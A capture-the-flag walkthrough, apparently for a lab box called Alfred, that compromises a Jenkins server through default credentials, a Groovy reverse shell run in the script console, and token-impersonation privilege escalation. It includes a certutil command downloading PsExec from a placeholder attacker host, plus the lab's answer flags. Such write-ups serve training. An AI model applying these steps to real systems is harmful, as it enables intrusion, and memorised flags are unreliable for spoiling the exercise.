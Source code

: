 # Alfred

### Initial Access
- How many ports are open? (TCP only)<br />

      nmap 10.10.128.203 -Pn -n                                              
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 09:03 EDT
      Nmap scan report for 10.10.128.203
      Host is up (0.053s latency).
      Not shown: 997 filtered tcp ports (no-response)
      PORT     STATE SERVICE
      80/tcp   open  http
      3389/tcp open  ms-wbt-server
      8080/tcp open  http-proxy
      Nmap done: 1 IP address (1 host up) scanned in 5.51 seconds
`3`

- What is the username and password for the login panel? (in the format username:password)<br />
Port 80 shows nothing interesting: <br />
![image](https://github.com/user-attachments/assets/e504da8e-e4a8-45b9-b180-1c661e9a6a09)<br />
Port 8080 shows a login panel: <br />
![image](https://github.com/user-attachments/assets/42bd93a2-81ec-45ff-a260-1f4ae3470381)<br />
Searching online for the default credentials, I gained access to the panel with the credentials admin:admin. `admin:admin`

- What is the user.txt flag?<br />
Playing around with the application, I found that in the "Manage Jenkins" section, there's the possibility of executing scripts: <br />
![image](https://github.com/user-attachments/assets/a3739b3e-629b-475d-a595-27518cfae65e)<br />
So, after some reasearch, I understood that the script must be written in groovy, which is an object oriented language that runs in the JVM, but was developed to be more concise and less verbose than Java. I found a groovy reverse shell [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76), the code for the reverse shell can be found in revShell.groovy inside this folder. So finally I was able to gain initial access:<br />
![image](https://github.com/user-attachments/assets/3a615248-071f-41f6-af7e-c5e7cf7928a6)<br />
So I was able to get the flag: <br />
![image](https://github.com/user-attachments/assets/5afb69d9-8d50-444e-87e0-a0914bd790de)<br />
`79007a09481963edf2e1321abd9ae2a0`


### Switching Shells
- What is the final size of the exe payload that you generated?<br />
![image](https://github.com/user-attachments/assets/26d92c39-71f5-47dc-bde1-18e51cf5a21c)<br />
`73802`<br />
I didn't really updated to a meterpreter shell, that should not be a problem. 

### Privilege Escalation
Run `whoami /priv` to find out which privileges are enabled for my user: <br />
![image](https://github.com/user-attachments/assets/24016b3e-28c3-4b34-a3f8-d01b9100e879)<br />
We have the `SeImpersonatePrivilege`. After some reaserch I found out that this can be exploited using the `PsExec.exe` from the sysinternal utilities. So first i downloaded the .exe on my machine, and then transfered it on the windows reverse shell using the command `certutil -urlcache -split -f http://YOUR_IP:8000/PsExec.exe C:\Windows\Temp\PsExec.exe`. Now we can run `PsExec.exe` to locate the root flag.<br />

- Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command? `NT AUTHORITY\SYSTEM`
- Read the root.txt file located at C:\Windows\System32\config `dff0f748678f280250f25a45b8046b4a `
 

